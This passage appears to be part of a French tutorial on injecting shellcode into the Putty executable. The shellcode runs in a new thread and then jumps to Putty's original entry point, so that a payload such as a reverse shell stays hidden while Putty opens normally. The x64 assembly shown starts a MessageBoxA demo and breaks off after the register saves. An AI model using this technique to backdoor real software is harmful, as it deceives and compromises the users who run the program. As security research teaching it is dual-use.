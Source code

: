 
## Deuxième partie

C'est déjà **pas mal**, mais ça me **chagrine un peu**.  

Le problème ?  
Si notre **shellcode** comporte une **boucle infinie**, qu’on ne peut **pas casser** (ex. : attendre le buffer d’un **reverse shell**), alors **l'utilisateur n'aura pas Putty ouvert**.  
Car le shellcode doit **se terminer** avant de **passer le jump sur Putty**.  

Mais je vous rappelle : **on fait ce qu'on veut** en recherche de fonction et de DLL.  

---

Voici donc un **shellcode amélioré** :  

- Il ouvrira une **MessageBoxA** dans un **nouveau thread**  
- Puis il **jumpera** sur l’entrypoint **officiel** de **Putty**  



```
[BITS 64]
section .data
    title db "Test", 0
    message db "Click OK", 0
    msgbox_func db "MessageBoxA", 0
    thread_handle dq 0  ; Handle pour le thread
    saved_user32 dq 0   ; Sauvegarde l'adresse de user32.dll

    rien_saved_rbx dq 56  ; Variable inutilisée

    ; Sauvegarde des registres pour restauration
    saved_rax dq 0
    saved_rbx dq 0
    saved_rcx dq 0
    saved_rdx dq 0
    saved_rbp dq 0
    saved_rsp dq 0
    saved_rsi dq 0
    saved_rdi dq 0
    saved_r8  dq 0
    saved_r9  dq 0
    saved_r10 dq 0
    saved_r11 dq 0
    saved_r12 dq 0
    saved_r13 dq 0
    saved_r14 dq 0
    saved_r15 dq 0

section .text
    global _start

_start:
    ; Sauvegarde des registres
    mov [rel saved_rax], rax
    mov [rel saved_rbx], rbx
    mov [rel saved_rcx], rcx
    mov [rel saved_rdx], rdx
    mov [rel saved_rbp], rbp
    mov [rel saved_rsp], rsp
    mov [rel saved_rsi], rsi
    mov [rel saved_rdi], rdi
    mov [rel saved_r8], r8
    mov [rel saved_r9], r9
    mov [rel saved_r10], r10
    mov [rel saved_r11], r11
```